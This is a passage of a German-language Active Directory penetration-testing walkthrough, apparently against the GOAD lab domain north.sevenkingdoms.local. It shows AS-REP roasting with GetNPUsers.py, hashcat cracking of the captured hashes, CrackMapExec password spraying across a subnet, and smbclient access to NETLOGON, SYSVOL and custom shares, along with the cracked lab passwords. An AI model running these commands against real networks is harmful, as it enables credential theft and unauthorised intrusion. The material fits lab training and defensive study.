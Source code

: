 **Erfolgreiche Cracks:**

```
jon.snow:iknownothing
```

### 3.2 AS-REP Roasting

### Benutzer ohne Kerberos Pre-Authentication finden

```bash
# User-Liste aus LDAP extrahieren (falls möglich)ldapsearch -x -H ldap://192.168.20.11 -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=user)" sAMAccountName | grep sAMAccountName | cut -d: -f2 | tr -d ' ' > users.txt
# AS-REP Roasting durchführenGetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -outputfile asrep_hashes.txt
```

### Hashcat für AS-REP Hashes

```bash
# AS-REP Hash-Format: 18200hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
# Mit erweiterten Regelnhashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

**Erfolgreiche Cracks:**

```
brandon.stark:iseedeadpeople
```

### 3.3 SMB-Exploitation mit kompromittierten Credentials

### CrackMapExec für Credential Validation

```bash
# Kompromittierte Credentials testencrackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing
crackmapexec smb 192.168.20.0/24 -u brandon.stark -p iseedeadpeople
crackmapexec smb 192.168.20.0/24 -u samwell.tarly -p Heartsbane
# Erfolgreiche Logins identifizierencrackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing --shares
```

### Manuelle SMB-Share-Exploration

```bash
# NETLOGON-Share (häufig interessant für Skripte)smbclient //192.168.20.11/NETLOGON -U jon.snow
# Passwort: iknownothing# SYSVOL-Share (Group Policy-Dateien)smbclient //192.168.20.11/SYSVOL -U jon.snow
# Custom Sharessmbclient //192.168.20.22/all -U samwell.tarly
# Passwort: Heartsbane
```

**Downloads aus Shares:**
